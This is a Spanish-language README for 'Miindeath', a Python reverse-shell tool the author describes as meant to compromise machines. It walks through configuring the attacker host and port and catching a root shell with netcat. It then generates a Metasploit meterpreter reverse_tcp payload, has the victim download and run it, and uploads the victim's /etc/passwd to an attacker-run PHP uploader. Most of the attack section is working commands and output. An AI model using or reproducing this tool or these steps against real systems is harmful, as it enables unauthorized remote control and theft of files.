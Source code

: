 ## Miindeath

\- Miindeath (Siglas de MInImalist Death). Es una shell inversa escrita en Python ( 3 ). que trata de ser lo más simple posible para lograr comprometer una máquina.

## Instalación

**No requiere librerías externas**

```bash
git clone https://github.com/DtxdF/Miindeath.git
cd Miindeath
```

## Modo de ejecución

```bash
editor miindeath.py # Nos vamos a las lineas 54-77 y configuramos a nuestro gusto
```

### Ejemplo:

```
...
class config(object):

    RHOST = '127.0.0.1'
    RPORT = 4444
    LIMIT = 0 # 0 Es infinito
    #timeout = 180 # 3 minutos
    # Los bufers de red
    RECV = 1024
    SEND = 1024
    HEADERS = {
            
        'User-Agent':'Hi!, My Name is DtxdF :)'
            
    }
    
    # Claves de los valores POST
    FILENAME = 'filename' # El nombre del archivo
    FILECONTENT = 'filecontent' # El contenido del archivo

    UNIT_SEP = '.AND.' # Cómo si fuera "bash" o una shell 
                       # cualquiera, para ejecutar varios 
                       # comandos internos.
    SLEEP = 15
    RECONNECT = True # Reconectar sí hay una desconexión, doh.
...
```

Es fácil deducir qué es cada cosa, pero para simplificar la explicación, sólo cambiemos "*RHOST*" y "*RPORT*" a los valores correspondientes.

### Atacando:

```bash
# Victima:
$ ./miindeath # (En caso que se haya compilado a un ejecutable) o python3 miindeath.py
...
# Atacante:
$ nc -lvvp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 32974
(5857): root@10.124.185.221:/home/dtxdf/tmp$ shell whoami
root
...
```

### Subiendo y Descargando archivos:

El atacante tiene que tener listo un servidor cualquiera para subir y bajar archivos.

En el caso de la bajada de archivos:

```python
python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

*También podria usar Apache (o **cualquier otro**), pero para hacer una simple demostración ...*

Para ser más malévolos, usemos Metasploit O:) ...

```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST=localhost LPORT=4445 -o script.py
No platform was selected, choosing Msf::Module::Platform::Python from the payload
No Arch selected, selecting Arch: python from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 446 bytes
Saved as: script.py
```

En el caso de la subida:

Creamos un simple *uploader* en PHP (**uploader.php**) y lo subimos a nuestro servidor con PHP **instalado** (Aunque podriamos hacer "**php -S 0.0.0.0:8081**").

```php
<?php

	if (isset($_POST['filename'])&&isset($_POST['filecontent'])) {

		fwrite(fopen(basename($_POST['filename']), 'wb'), $_POST['filecontent']);
	
	}

?>
```

*En la configuración pueden cambiar los nombres de los parámetros **POST***

Ahora en la shell para descargar:

```bash
(5857): root@10.124.185.221:/home/dtxdf/tmp$ download http://localhost:8080/script.py /tmp/payload.py
Guardado => /tmp/payload.py
```
Ahora sólo lo ejecutamos y tenemos una mejor shell con poderes.

Y por último, para subir:

```bash
(5857): root@10.124.185.221:/home/dtxdf/tmp$ upload http://localhost:8081/uploader.php /etc/passwd
/etc/passwd, fue subido correctamente
```

**:)**

## Notas:

Aunque sea una simple conexión entre sockets (TCP), la subida y bajada de archivos usa HTTP, simplemente porque es más sencillo para un atacante descargar/subir archivos de cualquier servidor público :)

~ **DtxdF**
